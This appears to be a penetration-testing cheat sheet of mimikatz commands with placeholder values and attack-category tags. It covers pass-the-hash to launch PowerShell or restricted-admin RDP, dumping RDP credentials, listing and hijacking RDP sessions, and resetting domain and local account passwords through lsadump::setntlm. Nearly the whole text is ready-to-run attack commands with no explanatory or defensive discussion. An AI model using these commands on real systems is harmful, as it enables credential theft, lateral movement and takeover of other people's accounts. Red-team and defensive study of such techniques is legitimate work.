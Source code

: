 % mimikatz, pth

## pth run powershell remotelly
#plateform/windows  #target/local  #cat/ATTACK/PTH 
Followed by : Enter-PSSession -Computer {<}computer_name}
```
sekurlsa::pth /user:<user> /domain:<domain_fqdn> /ntlm:<ntlm_hash> /run:powershell
```

## pth to RDP
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/PTH
```
sekurlsa::pth /user:<user> /domain:<domain_fqdn> /ntlm:<ntlm_hash> /run:"mstsc.exe /restrictedadmin"
```

% mimikatz, rdp

## RDP - Extract RDP passwords
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/CREDENTIAL-ACCESS/CREDS_RECOVER 
```
ts::logonpasswords
```

## RDP - List RDP sessions 
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/RECON
```
ts::sessions
```

## RDP - Hijack RDP session 
#plateform/windows  #target/local  #protocol/rdp #port/3389 #cat/ATTACK/HIJACK
```
ts::remote /id:<id>
```

% mimikatz, user

## change user password - Reset Domain
#plateform/windows #target/local #cat/CREDENTIAL-ACCESS
```
lsadump::setntlm /user:<target_user> /password:VeryStrongPass1! /server:<dc_name>
```

## change user password - Reset Local
#plateform/windows #target/local #cat/CREDENTIAL-ACCESS
```
lsadump::setntlm /user:<target_user> /password:VeryStrongPass1! /server:<target_name>
```